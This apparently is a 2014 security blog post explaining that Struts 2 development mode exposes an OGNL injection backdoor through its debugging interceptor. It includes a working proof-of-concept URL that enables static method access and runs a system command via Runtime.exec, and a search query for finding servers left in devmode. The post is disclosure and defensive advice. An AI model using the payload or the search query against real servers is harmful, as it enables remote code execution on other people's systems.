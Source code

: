 +++
author = "pwntester"
categories = ["Java", "OGNL", "Struts2"]
date = 2014-01-21T19:10:00Z
description = ""
draft = false
slug = "struts-2-devmode-an-ognl-backdoor"
tags = ["Java", "OGNL", "Struts2"]
title = "Struts 2 devmode: An OGNL backdoor"

+++

There are many Struts 2 developers familiar with the Struts 2 [development mode](http://struts.apache.org/release/2.3.x/docs/devmode.html ) on which more verbose logs are produced and handy resource reloading is done on a request basis to avoid restarting the server every time we change a property, validator and so on.
What it is not so well known (actually it doesn’t even appear in the Struts 2 [devmode site](http://struts.apache.org/release/2.3.x/docs/devmode.html)) is that it enables a OGNL injection backdoor allowing the developers to check their Value Stacks with ease and from a handy OGNL console or request parameter. This handy feature for developers turns into a security nightmare if application is released into production servers with this flag on.

If we look at the [“debugging” page](http://struts.apache.org/release/2.3.x/docs/debugging.html), we can find some info on how it works. It enables the [debugging interceptor](http://struts.apache.org/release/2.3.x/docs/debugginginterceptor.html) which brings us some interesting commands:

* **xml**: Dumps the parameters, context, session, and value stack as an XML document.
* **console**: Shows a popup 'OGNL Console' that allows the user to test OGNL expressions against the value stack. The XML data from the 'xml' mode is inserted at the top of the page.

![](/images/octopress/devmode-1.png)

* **command**: Tests an OGNL expression and returns the string result. Only used by the OGNL console.
* **browser**: Shows field values of an object specified in the object parameter (#context by default). When the object parameters is set, the '#' character needs to be escaped to '%23'. Like debug=browser&object=%23parameters

![](/images/octopress/devmode-2.png)

So we can abuse this feature to run our arbitrary commands by loading the following page:

```lang-bash line-numbers 
http://vulnserver.com/some.action?debug=command&expression=%23f=%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29,%23f.setAccessible%28true%29,%23f.set%28%23_memberAccess,true%29,@java.lang.Runtime@getRuntime%28%29.exec%28%27/Applications/Calculator.app/Contents/MacOS/Calculator%27%29
```

Note that this will work even with the latest Struts 2 version (where “allowStaticMethodAccess” is immutable) using the payload explained in this [previous post](http://www.pwntester.com/blog/2014/01/20/time-to-update-your-ognl-payloads/)

Now, you may be wondering who releases its applications in devmode? Go, check it yourself:

```lang-bash line-numbers 
https://www.google.com/search?q=intitle%3A%22Struts+Problem+Report%22+%22You+are+seeing+this+page+because+development+mode+is+enabled.%22
```

So, don’t forget to disable devmode before releasing your applications to production.





